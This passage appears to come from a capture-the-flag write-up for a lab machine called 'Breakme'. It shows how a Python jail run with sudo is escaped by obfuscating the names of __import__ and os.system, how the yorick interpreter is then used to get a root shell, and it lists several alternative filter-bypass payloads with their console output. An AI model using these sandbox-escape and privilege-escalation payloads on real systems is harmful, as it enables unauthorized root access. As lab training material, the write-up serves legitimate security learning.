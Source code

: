 At this point, checking the hint present in the room (`Interpreted programming language designed for numerics, graph plotting, and steering large scientific simulation codes.`), it points to the `yorick` program.

We can find the program at `/lib/yorick/bin/yorick`.

> The program is actually at `/usr/lib/yorick/bin/yorick`, but if you are using the `casefold` method, it only allows you to run `/lib/yorick/bin/yorick`.
{: .prompt-tip }

Now, using the payload `__builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__['SYSTEM'.casefold()]('/lib/yorick/bin/yorick')`, we can first spawn the `yorick` interpreter. Then, we can use the `system, "bash"` command in the `yorick` interpreter to spawn a shell as the `root` user and read the third flag.

```console
youcef@Breakme:~$ sudo /usr/bin/python3 /root/jail.py
  Welcome to Python jail
  Will you stay locked forever
  Or will you BreakMe
>> __builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__['SYSTEM'.casefold()]('/lib/yorick/bin/yorick')

 Copyright (c) 2005.  The Regents of the University of California.
 All rights reserved.  Yorick 2.2.04 ready.  For help type 'help'
> system, "bash"
root@Breakme:/home/youcef# cd ~
root@Breakme:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Breakme:~# wc -c .root.txt
33 .root.txt
```
{: .wrap }

### Extra Payloads

The method above was the intended way, but there are many other ways to bypass the filter in the program and spawn a shell.

- `swapcase()`
```console
>> __builtins__.__dict__['__IMPORT__'.swapcase()]('OS'.swapcase()).__dict__['SYSTEM'.swapcase()]('SH'.swapcase())
# id
uid=0(root) gid=0(root) groups=0(root)
```

- `[::-1]`
```console
>> __builtins__.__dict__['__tropmi__'[::-1]]('so'[::-1]).__dict__['metsys'[::-1]]('hs'[::-1])
# id
uid=0(root) gid=0(root) groups=0(root)
```

- `replace()`
```console
>> __builtins__.__dict__['__imXport__'.replace('X','')]('oXs'.replace('X','')).__dict__['sXystem'.replace('X','')]('sXh'.replace('X',''))
# id
uid=0(root) gid=0(root) groups=0(root)
```
